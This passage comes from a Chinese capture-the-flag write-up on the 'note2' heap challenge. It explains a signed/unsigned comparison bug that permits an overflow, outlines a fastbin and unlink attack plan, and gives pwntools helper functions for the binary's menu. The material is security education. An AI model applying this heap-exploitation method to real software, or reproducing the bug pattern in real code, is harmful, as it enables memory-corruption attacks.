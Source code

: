 ```c
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

其中i是unsigned类型，a2为int类型，所以两者在for循环相比较的时候，a2-1的结果-1会被视为unsigned类型，此时，即最大的整数。所以说可以读取任意长度的数据，这里也就是后面我们溢出所使用的办法。

### 基本思路

这里我们主要利用发现的第一个问题，主要利用了 fastbin 的机制、unlink 的机制。

下面依次进行讲解。

#### 基本操作

首先，我们先把note可能的基本操作列举出来。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```
